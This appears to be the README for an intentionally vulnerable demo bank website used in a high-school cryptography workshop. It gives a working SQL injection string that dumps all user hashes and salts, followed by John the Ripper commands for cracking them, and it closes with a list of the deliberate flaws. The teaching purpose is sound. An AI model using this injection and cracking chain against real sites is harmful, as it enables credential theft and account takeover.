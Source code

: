 Anaflow Bank (Insecure Website)
-------------------------------

This website is a demonstration in a cryptography workshop at Independence 
High School, run by Andy Chen and Nick Hirning. It is meant to serve as a
simplified model of how password hashing and SQL injection can work. The code
creates a dummy website "Anaflow Bank" whose data can be compromised with a SQL
injection.


Get Started
-----------

As a prerequisite, make sure you have web.py (version 0.3) and SQLite 
capabilities. Begin by creating the database of user accounts:

sqlite3 BankAccount.db < create_accounts.sql

Then, to run the website, execute:

python anaflow_bank.py [optional port number, default is 8080]


Demonstration Overview
----------------------

In the demonstration, we perform an SQL injection via the login form. We set
the username to be:

' OR 1=1 UNION SELECT GROUP_CONCAT(Username || ' : ' || PasswordHash || ' : ' || Salt, '  ||  ') AS Amount FROM BankAccount WHERE '1' = '1

(The password can be any string.) This allows us to see all of the users' 
salts and password hashes, which are SHA-1 for this purpose. We then use 
John the Ripper (JTR) to expose any weak passwords. Despite each account 
having its own salt, JTR can crack salted SHA-1 hashes in a single file.
To do so, create a blank password file, and format each username/salt/hash 
combination on each line (without the brackets).

In the MacOS version of John 1.7.9-jumbo-7 (see 
http://openwall.info/wiki/john/custom-builds#Compiled-for-Mac-OS-X), 
format each line of the password file as:

[username]:$SHA1p$[salt]$[hash]

For example:

admin:$SHA1p$*Utf&+s5$317fe16a5f409e871b21c3460a75dab8dc906767

Then, run JTR to recover some of the passwords. 

./john --format=sha1-gen [password file]

./john --show [password file] 


For the Windows version of John 1.7.9-jumbo-7-Win-32 (see 
http://openwall.info/wiki/john/custom-builds#Compiled-for-Windows).
format each line of the password file as:

[username]:$dynamic_25$[hash]$[salt]

For example:

admin:$dynamic_25$317fe16a5f409e871b21c3460a75dab8dc906767$*Utf&+s5

Then, run JTR to recover some of the passwords. 

john [password file]

john --show [password file] 


Disclaimer
----------

Do NOT use this code for any application meant to be cryptographically secure.
We intentionally left this system vulnerable to attack. Major flaws include:

- SQL injection (an adversary can display the table of user accounts)
- Malfunctioning SQL queries with certain usernames (generalization of the 
	first flaw)
- SHA-1 hashing instead of slow hashing, such as bcrypt (though for large 
	user databases, this could require client-side hashing. However, an 
	attacker who has stolen the table of users and password hashes can then 
	send a hash directly to the server and successfully login.)
- Lack of security checks, mainly in the Python web.py backend
